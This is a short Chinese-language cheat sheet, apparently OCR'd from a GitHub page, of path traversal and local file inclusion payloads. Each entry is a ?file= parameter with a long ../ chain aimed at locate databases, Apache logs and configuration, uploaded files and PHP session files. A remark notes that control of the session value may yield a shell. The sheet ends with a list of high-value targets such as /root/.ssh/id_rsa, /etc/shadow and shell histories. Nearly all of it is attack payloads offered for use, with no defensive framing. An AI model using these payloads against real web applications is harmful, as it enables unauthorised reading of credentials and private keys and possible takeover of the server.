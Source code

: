 ### **目錄遍歷**
```
?file=../../../../../../../../../var/lib/locate.db

?file=../../../../../../../../../var/lib/mlocate/mlocate.db

(linux 中這兩個文件儲存著所有文件的路徑,需要 root 權限)
```

---

### **包含錯誤日誌**
```
?file=../../../../../../../../../var/log/apache/error.log
```
---

### **獲取 web 目錄或者其他配置文件**
```
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf
```
---

### **包含上傳的附件**
```
?file=../attachment/media/xxx.file
```
---

### **讀取 session 文件**
```
?file=../../../../../../tmp/sesstnrdo9ub2tsdurntv0pdir1no7

(session 文件一般在/tmp 目錄下,格式為`sess\[your phpsessid value]`,有時候也有可能在/var/lib/php5 之類的,在此之前建議先讀取配置文件。在某些特定的情況下如果你能夠控制session 的值,也許你能夠獲得一個shell)
```
---

### **系統中重要文件(需要 root 權限)**
```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.keystore
/root/.ssh/id_rsa.pub
/root/.ssh/known_hosts
/etc/shadow
/root/.bash_history
/root/.mysql_history
/proc/self/fd/fd[0-9]* (文件標識符)
/proc/mounts
/proc/config.gz
```

---